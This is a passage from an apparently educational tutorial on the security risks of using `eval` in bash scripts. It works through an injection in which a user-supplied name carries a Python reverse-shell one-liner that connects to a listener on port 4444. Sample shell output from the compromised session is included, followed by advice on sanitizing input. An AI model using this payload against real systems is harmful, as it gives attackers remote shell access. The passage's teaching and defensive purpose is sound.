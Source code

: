 This will output the following:

~~~{ caption="Output"}
Listening on 0.0.0.0 4444
~~~

Then they use the `eval` in your `hello.sh` script to connect to their listening port, effectively giving themselves a shell on your vulnerable system:

~~~{.bash caption=">_"}
user@localhost:$ ./hello.sh
Hello, who is this?
LocalUser;export RHOST="localhost";export RPORT=4444;python3 -c \
'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),\
int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];\
pty.spawn("/bin/sh")'
Welcome user: User

~~~

Now, from the attacker's box, you can execute normal shell commands directly on the victim's box:

~~~{.bash caption=">_"}
Connection received on localhost 47004
$ ls
ls
hello.sh
$
$ whoami
whoami
user
~~~

> Note: In this example, you're effectively connecting to the same box, but if network connectivity is available, nothing stops the attacker from doing this over the internet.

Now that the attacker has a foothold, they can try to perform reconnaissance and privilege escalation techniques.

### Other Unexpected Behavior

Even if an attacker can't find your script, it's still a good idea to sanitize any input for any script that accepts user input. You may not experience malicious behavior, but you could still experience your script breaking or data being corrupted by bad user input.

For example, your script might be capturing user responses in a database. If you're not making sure that the data being entered fits the field type you are targeting, you could be receiving the incorrect data in your database, making the data capturing effectively useless.

## Real-World Vulnerabilities Caused by `eval`

![Vulnerabilities]({{site.images}}{{page.slug}}/vulnerabilities.png)\

Software vulnerabilities are found in software on a daily basis. There is a continuous process to find and fix vulnerabilities, especially in open-source software. Here are a few examples where vulnerabilities were caused by the `eval` command.
